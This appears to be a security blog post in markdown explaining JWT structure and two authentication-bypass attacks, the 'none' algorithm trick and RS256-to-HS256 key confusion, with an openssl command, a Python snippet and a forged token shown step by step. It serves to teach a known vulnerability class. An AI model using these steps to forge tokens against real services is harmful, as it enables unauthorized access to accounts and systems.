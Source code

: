```yaml
---
layout: post
title:  "Attacking JWT Authentication"
date:   2020-07-27 10:16:00
tags:   [JWT]
---
```


### Description
This post contains the ways to bypassing authentication with JWT exploit.
<br/>
<br/>


### JWT
Json Web Token is mainly used for web authentication and is a JSON-like data structure with cryptographic signatures. It consists of urlsafe base64 encoded data (characters, numbers, _ and -), separated by three parts with dots.

<br/>
<br/>


### JWT Structure
Json Web Token consists of three parts those are Header, Body and Signature.
```
# RS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
```
# HS256 JWT
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### None Type Attack
This is a vulnerability that usually occurs when the web or API trusts the JWT header. It can be used by changing the algorithm part of the JWT header to none. Attacker can changes body data with `None` alg.
```
Headers = {
  "typ" : "JWT",
  "alg" : "None"
}

Body = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}
```
<br/>
<br/>


### Key Confusion Attack
```
jwt = JWT.decode(token, public_key)
```
If attacker has public key and there is a part of the decode JWT like above example trusting algorithm of token header, JWT using the existing `RS256` normally checks the signature of the token, but JWT using the `HS256` uses the second argument `public_key` as the decryption key to change the algorithm when the public key is obtained. Internal data can be changed.
```
# Before
Headers = {
  "typ" : "JWT",
  "alg" : "RS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# After
Headers = {
  "typ" : "JWT",
  "alg" : "HS256"
}

Payload = {
  "name" : "03sunf",
  "type" : "user",
  "iat" : 1500000000
}

# Body and Header data after urlsafe base64 encoding
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9
```
<br/>

Attacker can sign with public key after changing data.
```sh
# Checking hex raw.
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9" | openssl dgst -sha256 -mac HMAC -macopt hexkey:$(cat signing.pem | xxd -p | tr -d "\\n")
(stdin)= 38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62
```
```python
# Encoding sign value.
import base64, binascii

print base64.urlsafe_b64encode(binascii.a2b_hex('38a4dcf5a424e6371fcc163d61f1a559ec284c0b0df6209ee92c6d261e181f62')).replace('=','')

# return => OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
```
# JWT generated
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiMDNzdW5mIiwidHlwZSI6InVzZXIiLCJpYXQiOjE1MDAwMDAwMDB9.OKTc9aQk5jcfzBY9YfGlWewoTAsN9iCe6SxtJh4YH2I
```
<br/>
<br/>

